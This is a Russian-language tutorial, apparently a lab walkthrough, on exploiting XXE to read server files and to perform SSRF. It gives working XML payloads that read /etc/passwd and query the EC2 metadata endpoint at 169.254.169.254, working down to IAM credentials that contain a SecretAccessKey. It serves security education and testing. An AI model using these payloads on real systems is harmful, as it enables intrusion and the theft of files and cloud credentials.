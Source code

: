 # Эксплуатация XXE для извлечения файлов и выполнения SSRF 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера или даже выполнять атаки подделки серверных запросов (SSRF). В этом руководстве рассмотрены оба случая с подробными примерами. 💡

## Часть 1: Извлечение файлов

### 1. Подготовка XML для атаки 📝

Чтобы выполнить XXE-инъекцию:

1. **Добавьте или измените DOCTYPE**, чтобы определить внешнюю сущность с указанием пути к целевому файлу.
2. **Измените данные в XML**, чтобы внедрить внешнюю сущность в нужное значение.

Пример исходного XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```

Полезная нагрузка XXE для извлечения файла `/etc/passwd`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

### 2. Выполнение атаки 💻

**Шаг 1**. Определите DOCTYPE и внешнюю сущность:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

**Шаг 2**. Используйте внешнюю сущность в `productId`:
```xml
<productId>&xxe;</productId>
```

**Результат**: Ответ приложения может выглядеть так:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Часть 2: Выполнение SSRF

### Что такое SSRF?

Помимо извлечения конфиденциальных данных, XXE может быть использован для подделки запросов на стороне сервера (SSRF). Это серьёзная уязвимость, при которой серверное приложение принуждается делать HTTP-запросы на любой URL, доступный серверу.

Если внедренная сущность используется в значении данных, возвращаемых в ответе приложения, можно просмотреть ответ с целевого URL. В противном случае возможно выполнение только слепых атак SSRF, которые также могут иметь серьёзные последствия.

### Пример: Целевой внутренний ресурс

Эта нагрузка XXE заставляет сервер выполнить внутренний HTTP-запрос:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Пример: Доступ к метаданным EC2

В этом лабораторном примере сервер размещает (симулированную) конечную точку метаданных EC2 по адресу по умолчанию: `http://169.254.169.254/`. Эта конечная точка может быть использована для извлечения данных об экземпляре, включая конфиденциальные данные, такие как секретный ключ доступа IAM.

#### Шаги для выполнения атаки SSRF

### 1. Начало работы
Выберите любой продукт из списка:

![Список продуктов](https://github.com/user-attachments/assets/5b1c2835-49a4-4c35-a8f6-868e64b152b0)

---

### 2. Анализ запроса
Включите прокси-инструмент (например, Burp Suite) и нажмите **"Проверить наличие на складе"**:

![Кнопка проверки наличия](https://github.com/user-attachments/assets/befde5fc-be41-4db5-b1ea-157f5f333b26)

---

### 3. Перехват запроса
В **Proxy → HTTP History** найдите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/1ca2ef83-dade-4541-9769-49efdf5b66ec)

---

### 4. Внедрение полезной нагрузки 🚀

Вставьте следующее определение внешней сущности между декларацией XML и элементом `stockCheck`:
```xml
<!DOCTYPE eyes [ <!ENTITY ears SYSTEM "http://169.254.169.254/"> ]>
```

Измените значение `productId` на `&ears;`:

![Внедрение нагрузки SSRF](https://github.com/user-attachments/assets/07499e10-bfeb-4136-b7e3-40bf768b2721)

---

### 5. Просмотр ответа
Ответ должен содержать `Invalid product ID:`, за которым следует имя папки с конечной точки метаданных:

![Ответ с метаданными](https://github.com/user-attachments/assets/3423349d-50a9-47c4-9577-bb8dfe43d3d8)

---

### 6. Дальнейшее исследование 🚧
Итеративно обновляйте URL конечной точки в DTD, чтобы исследовать API. Например, доступ к `/latest/meta-data/iam/security-credentials/admin` вернёт JSON, содержащий `SecretAccessKey`:

![JSON с секретным ключом](https://github.com/user-attachments/assets/75bdacca-9636-450b-bef0-e1d441ca4f9b)

---

## Советы по тестированию 🔍

- **Проверяйте каждый узел XML** на возможность внедрения сущностей.
- Убедитесь, что сервер возвращает результат в ответе для выполнения SSRF.
- Используйте прокси-инструменты (например, Burp Suite) для анализа и изменения запросов.
